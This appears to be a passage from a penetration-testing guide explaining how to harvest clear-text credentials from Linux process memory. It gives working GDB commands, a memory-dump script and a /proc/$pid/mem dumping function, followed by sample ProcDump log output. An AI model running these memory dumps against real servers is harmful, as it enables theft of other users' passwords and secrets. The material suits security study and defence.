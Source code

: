 ### Process memory

Some services of a server save **credentials in clear text inside the memory**.
Normally you will need **root privileges** to read the memory of processes that belong to other users, therefore this is usually more useful when you are already root and want to discover more credentials.
However, remember that **as a regular user you can read the memory of the processes you own**.

{% hint style="warning" %}
Note that nowadays most machines **don't allow ptrace by default** which means that you cannot dump other processes that belong to your unprivileged user.

The file _**/proc/sys/kernel/yama/ptrace\_scope**_ controls the accessibility of ptrace:

* **kernel.yama.ptrace\_scope = 0**: all processes can be debugged, as long as they have the same uid. This is the classical way of how ptracing worked.
* **kernel.yama.ptrace\_scope = 1**: only a parent process can be debugged.
* **kernel.yama.ptrace\_scope = 2**: Only admin can use ptrace, as it required CAP\_SYS\_PTRACE capability.
* **kernel.yama.ptrace\_scope = 3**: No processes may be traced with ptrace. Once set, a reboot is needed to enable ptracing again.
{% endhint %}

#### GDB

If you have access to the memory of an FTP service (for example) you could get the Heap and search inside of its credentials.
```bash
gdb -p <FTP_PROCESS_PID>
(gdb) info proc mappings
(gdb) q
(gdb) dump memory /tmp/mem_ftp <START_HEAD> <END_HEAD>
(gdb) q
strings /tmp/mem_ftp #User and password
```
#### GDB Script

{% code title="dump-memory.sh" %}
```bash
#!/bin/bash
#./dump-memory.sh <PID>
grep rw-p /proc/$1/maps \
| sed -n 's/^\([0-9a-f]*\)-\([0-9a-f]*\) .*$/\1 \2/p' \
| while read start stop; do \
gdb --batch --pid $1 -ex \
"dump memory $1-$start-$stop.dump 0x$start 0x$stop"; \
done
```
{% endcode %}

#### /proc/$pid/maps & /proc/$pid/mem

**maps** file **show how memory is mapped within that process's** virtual address space; it also shows the **permissions of each mapped region**. The **mem** pseudo file **exposes the processes memory itself**. From the **maps** file we know which **memory regions are readable** and their offsets. We use this information to **seek into the mem file and dump all readable regions** to a file.
```bash
procdump()
(
cat /proc/$1/maps | grep -Fv ".so" | grep " 0 " | awk '{print $1}' | ( IFS="-"
while read a b; do
dd if=/proc/$1/mem bs=$( getconf PAGESIZE ) iflag=skip_bytes,count_bytes \
skip=$(( 0x$a )) count=$(( 0x$b - 0x$a )) of="$1_mem_$a.bin"
done )
cat $1*.bin > $1.dump
rm $1*.bin
)
```

[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714